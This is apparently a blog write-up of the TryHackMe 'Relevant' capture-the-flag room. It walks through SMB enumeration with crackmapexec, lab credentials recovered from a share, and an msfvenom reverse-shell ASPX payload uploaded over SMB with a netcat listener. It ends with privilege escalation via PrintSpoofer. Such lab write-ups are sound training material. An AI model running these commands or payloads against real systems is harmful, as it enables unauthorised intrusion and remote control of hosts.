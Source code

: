 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

- Probably a Windows machine.
## Enumeration using `nmap`



## SMB:445
### Null Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares

```
![[Pasted image 20230614185247.png]]

- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```


``` TXT
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                              
```

### SMB relay
- From nmap and cme the SMB signing is disable, so smb relay may work.
- Can not perform smb relay.

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash

msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 

smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx

sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell

whoami /all

systeminfo

```
![[Pasted image 20230614214734.png]]

## PrivEsc

- We found `SeImpersonatePrivilage` so we can run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) which is Abusing Impersonation Privileges From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

![[Pasted image 20230614224001.png]]

- Potatoes attack is detected by the AV.
- There is a problem in kali preventing me performing Etrnalblue MS17-010
